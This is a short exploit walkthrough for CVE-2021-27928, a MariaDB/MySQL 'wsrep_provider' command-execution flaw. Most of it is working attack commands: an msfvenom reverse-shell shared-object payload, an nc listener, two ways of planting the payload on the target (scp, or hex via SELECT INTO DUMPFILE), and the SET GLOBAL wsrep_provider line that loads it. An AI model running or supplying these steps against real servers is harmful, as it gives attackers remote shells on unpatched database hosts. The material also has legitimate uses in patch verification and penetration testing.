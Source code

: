 ## Information

~~~
Exploit Title: MariaDB 10.2 /MySQL - 'wsrep_provider' OS Command Execution
Date: 03/18/2021
Exploit Author: Central InfoSec
Version: 
	MariaDB 10.2 before 10.2.37
	10.3 before 10.3.28
	10.4 before 10.4.18 
	10.5 before 10.5.9
Percona Server through 2021-03-03; and the wsrep patch through 2021-03-03 for MySQL
Tested on: Linux
CVE : CVE-2021-27928
~~~

## How to Exploit

Step 1: Create the reverse shell payload

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so
```

![payload](img/payload.png)

Step 2: Start a listener

```
nc -lnvp <port>
```

![nc](img/nc.png)

Step 3: Copy the payload to the target machine

**Via SCP**

```
scp CVE-2021-27928.so <user>@<ip>:/tmp/CVE-2021-27928.so
```
**Via Dumpfile**
```
python3 -c 'print(open("CVE-2021-27928.so", "rb").read().hex())'
mysql -u <user> -p -h <ip>
SELECT UNHEX('PYTHON_OUTPUT') into dumpfile '/tmp/CVE-2021-27928.so';
```

Step 4：Execute the payload
```
mysql -u <user> -p -h <ip>
SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```

![shell](img/shell.png)

## Reference

https://www.exploit-db.com/exploits/49765

https://jira.mariadb.org/browse/MDEV-25179

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-27928
